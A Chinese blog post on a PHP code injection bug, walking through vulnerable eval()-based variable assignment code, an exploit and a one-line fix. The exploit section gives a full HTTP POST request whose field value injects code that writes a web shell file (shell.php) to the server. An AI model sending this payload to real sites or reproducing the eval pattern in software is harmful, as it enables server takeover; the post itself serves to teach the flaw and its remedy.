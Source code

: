```yaml
---
layout: post
title: "PHP代码注入漏洞"
description: "php code injection"
category: web
tags: [websecurity]
published: true
disqus: y
date: 2013-05-13 18:05:37 +0800
---
```



### 前言

在做测试的过程中，居然还发现了一站点现在还存在PHP代码注入的漏洞，真是很难见到的漏洞。现在说说这个漏洞产生的原因以及利用和修复方法吧。

### 漏洞成因

下面的代码片段引入了PHP代码注入漏洞，

```php
<?
$postarray = array(
"name",
"email",
"message",
);
foreach ($postarray as $val) {
	if (!isset($_POST[$val])) $_POST[$val] = "";
	eval("$".$val." = '".$_POST[$val]."';");
}
?>
```

<!--more-->

代码本意是想通过使用eval来给变量赋值，只是没有对用户提交的内容进行过滤。

### 漏洞利用

利用很简单了，既然可以执行任何php代码，只需在提交时加入恶意代码就可以。下面是一个示例。

```text
POST /test.php HTTP/1.1
Content-Length: 89
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=ui7uokv6ac1tdf2bh78fasdc55
Host: www.xxxx.xxx
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0)
Accept: */*

name=&&email=';fputs(fopen("shell.php","w+"),"<?eval(\$_POST[cmd]);?>");%24a%3d'&message=
```

### 修补建议

**尽量不要使用eval等高危函数，如果要使用，一定要确保函数参数可控**，就本例来说，可以直接赋值。
